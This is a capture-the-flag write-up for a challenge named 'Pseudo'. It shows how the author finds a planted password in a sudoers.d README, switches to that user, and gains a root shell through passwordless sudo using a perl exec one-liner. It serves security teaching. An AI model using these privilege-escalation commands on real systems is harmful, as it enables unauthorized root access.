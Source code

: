 # Pseudo | Miscellaneous

*Someone here has special powers... but who? and how!?*

Connecting via SSH to `challenge.ctf.games` as `user`.  The `/home` directory is filled with users, none of which contain anything useful.  Going into `/etc/sudoers.d` and reading the `README`

```
user@pseudo-41ddd916b182c8ee-6c985ccc-gc722:/etc/sudoers.d$ cat README
#
# As of Debian version 1.7.2p1-1, the default /etc/sudoers file created on
# installation of the package now includes the directive:
#
#       #includedir /etc/sudoers.d
#
# This will cause sudo to read and parse any files in the /etc/sudoers.d
# directory that do not end in '~' or contain a '.' character.
#
# Note that there must be at least one file in the sudoers.d directory (this
# one will do), and all files in this directory should be mode 0440.
#
# Note also, that because sudoers contents can vary widely, no attempt is
# made to add this directive to existing sudoers files on upgrade.  Feel free
# to add the above directive to the end of your /etc/sudoers file to enable
# this functionality for existing installations if you wish!
#
# Finally, please note that using the visudo command is the recommended way
# to update sudoers content, since it protects against many failure modes.
# See the man page for visudo for more information.
#
#
# The credentials for the 'todd' account is 'needle_in_a_haystack'
```

Switching user using `su`:

```
user@pseudo-41ddd916b182c8ee-6c985ccc-gc722:/etc/sudoers.d$ su todd
Password: 
todd@pseudo-41ddd916b182c8ee-6c985ccc-gc722:/etc/sudoers.d$ 
```

Running `sudo -l` reveals that the `todd` user can run anything with `sudo` without a password.  Privilege escalating with `perl5`:

```
sudo perl -e "exec '/bin/sh';"
# whoami
root
```

```
# cd /root
# ls -la
total 24
drwx------ 1 root root 4096 Sep 13 19:16 .
drwxr-xr-x 1 root root 4096 Sep 14 16:46 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxr-xr-x 2 root root 4096 May 20  2018 .ssh
-rw-r--r-- 1 root root   42 Sep 13 19:14 flag.txt
# cat flag.txt 
flag{hmmm_that_could_be_a_sneaky_backdoor}
```

```
flag{hmmm_that_could_be_a_sneaky_backdoor}
```